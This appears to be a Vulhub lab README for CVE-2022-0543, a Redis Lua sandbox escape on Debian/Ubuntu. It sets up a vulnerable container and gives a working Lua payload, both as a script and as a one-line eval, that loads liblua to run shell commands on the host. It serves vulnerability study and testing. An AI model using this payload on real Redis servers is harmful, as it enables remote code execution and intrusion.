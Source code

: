 # Redis Lua Sandbox Escape and Remote Code Execution (CVE-2022-0543)

[中文版本(Chinese version)](README.zh-cn.md)

Redis is an open source (BSD licensed), in-memory data structure store, used as a database, cache, and message broker.

Reginaldo Silva discovered that due to a packaging issue on Debian/Ubuntu, a remote attacker with the ability to execute arbitrary Lua scripts could possibly escape the Lua sandbox and execute arbitrary code on the host.

References:

- <https://www.ubercomp.com/posts/2022-01-20_redis_on_debian_rce>
- <https://bugs.debian.org/cgi-bin/bugreport.cgi?bug=1005787>

## Vulnerability Environment

Execute following command to start a redis server 5.0.7 on Ubuntu:

```
docker compose up -d
```

After server is started, you can connect to this server without credentials by `redis-cli`:

```
redis-cli -h your-ip
```

## Exploit

This vulnerability existed because the Lua library in Debian/Ubuntu is provided as a dynamic library. A `package` variable was automatically populated that in turn permitted access to arbitrary Lua functionality.

As this extended to, for example, you can use `package.loadlib` to load the modules from liblua, then use this module to execute the commands:

```lua
local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io");
local io = io_l();
local f = io.popen("id", "r");
local res = f:read("*a");
f:close();
return res
```

Noted that you should specify a correct realpath for the `liblua` library. In this Vulhub environment (Ubuntu focal), the value is `/usr/lib/x86_64-linux-gnu/liblua5.1.so.0`.

Eval this script in redis shell:

```lua
eval 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("id", "r"); local res = f:read("*a"); f:close(); return res' 0
```

Execute the commands successful:

![](1.png)
